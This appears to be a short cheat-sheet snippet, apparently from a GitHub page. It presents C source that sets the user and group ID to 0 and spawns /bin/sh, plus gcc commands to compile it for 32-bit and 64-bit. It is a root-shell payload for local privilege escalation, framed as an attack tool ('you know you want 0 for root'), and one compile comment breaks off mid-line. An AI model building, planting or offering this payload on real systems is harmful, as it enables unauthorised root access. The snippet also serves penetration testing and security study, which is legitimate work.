 Sets the user ID to whatever you want (but you know you want 0 for root)

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setuid(0); setgid(0); system("/bin/sh");
}
```

Compile with

```bash
# 32-bit, requires gcc-multilib
gcc -m32 setuid.c -o setuid
# 64-bit, requires 
gcc setuid.c -o setuid
```


